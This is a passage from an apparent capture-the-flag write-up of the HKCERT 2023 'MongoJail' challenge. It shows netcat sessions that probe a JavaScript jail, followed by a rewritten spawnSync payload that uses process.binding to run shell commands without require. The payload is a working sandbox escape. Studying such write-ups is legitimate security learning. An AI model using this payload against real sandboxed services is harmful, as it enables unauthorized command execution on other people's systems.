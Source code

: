 **Next, in the `process` object, there's a `binding` function:**
```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2023/pwn/MongoJail)-[2023.11.12|22:10:06(HKT)]
└> nc chal.hkcert23.pwnable.hk 28225
Enter math expression:
this.process.binding
[Function: binding]
```

**Which allows us to find a module like `fs`:**
```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2023/pwn/MongoJail)-[2023.11.12|22:10:37(HKT)]
└> nc chal.hkcert23.pwnable.hk 28225
Enter math expression:
this.process.binding('fs')
{
  access: [Function: access],
  close: [Function: close],
  open: [Function: open],
  openFileHandle: [Function: openFileHandle],
  read: [Function: read],
  readBuffers: [Function: readBuffers],
  fdatasync: [Function: fdatasync],
  fsync: [Function: fsync],
  rename: [Function: rename],
  ftruncate: [Function: ftruncate],
  rmdir: [Function: rmdir],
  mkdir: [Function: mkdir],
[...]
```

In the blog post that we've mentioned, we can execute system commands without `require` by using the rewrote version of `spawnSync` function in `child_process` module from [https://gist.github.com/CapacitorSet/c41ab55a54437dcbcb4e62713a195822](https://gist.github.com/CapacitorSet/c41ab55a54437dcbcb4e62713a195822).

**However, we need to make some changes:**
1. Change `process.binding()` to `this.process.binding()`
2. Remove `console.log()`

**Hence, the modified `spawnSync` function is:**
```javascript
spawn_sync = this.process.binding('spawn_sync'); normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||this.process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};};spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}};var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;}
```
